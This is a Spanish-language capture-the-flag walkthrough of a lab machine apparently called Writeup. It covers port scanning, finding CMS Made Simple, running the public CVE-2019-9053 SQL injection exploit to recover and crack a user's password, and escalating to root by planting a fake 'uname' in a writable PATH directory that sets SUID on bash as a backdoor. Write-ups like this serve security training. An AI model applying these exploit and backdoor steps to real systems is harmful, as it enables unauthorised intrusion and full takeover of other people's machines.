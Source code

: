 # Writeup
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
```
## Enum
### HTTP 
#### Robots.txt
```
#              __
#      _(\    |@@|
#     (__/\__ \--/ __
#        \___|----|  |   __
#            \ }{ /\ )_ / _\
#            /\__/\ \__O (__
#           (--/\--)    \__/
#           _)(  )(_
#          `---''---`

# Disallow access to the blog until content is finished.
User-agent: * 
Disallow: /writeup/
```
Como podemos ver hay un dir deshabilitado veamos que hay dentro

#### Writeup
Wappalyzer nos dice directamente que la página usa CMS Made Simple, hay varios CVE para este CMS pero no sabemos la version exacta asi que enumeremos mas a ver si la descubrimos
```
/administrator <- Login
```
Encontramos el endpoint de login pero ademas encontramos una pieza clave, el Copyright es 2004-2019,asi que deben estar en la version de 2019, eso acota bastante la búsqueda de exploits para el servicio
### CVE-2019-9053
Este CVE parece un buen candidato ya que concede acceso sin necesidad de autenticación previa, busquemos un script para explotar esta time based sqli
```
https://www.exploit-db.com/exploits/46635
```
Lo utilizamos 
```
python2.7 46635.py -u http://10.10.10.138 
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```
La contraseña del CMS tambien vale para el SSH así que were in

## Privesc
Podemos ver el siguiente proceso al inciar sesion mediante el pspy32
```
2020/08/26 15:04:52 CMD: UID=0    PID=2641   | run-parts --lsbsysinit /etc/update-motd.d 
2020/08/26 15:04:52 CMD: UID=0    PID=2642   | uname -rnsom 
```
El segundo comando sale de la ejecucion de un archivo que hay /etc/update-motd.d, por otro lado podemos ver que podemos escribir en el primer elemento del PATH por parte del grupo staff
```
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
Podemos hacer lo siguiente:
```
jkr@writeup:/usr/local/bin$ echo -e '#!/bin/bash\nchmod +s /bin/bash' > /usr/local/bin/uname 
jkr@writeup:/usr/local/bin$ chmod +x /usr/local/bin/uname
```
Nos logeamos ahora por SSH y ya tenemos nuestra backdoor con el SUID en bash

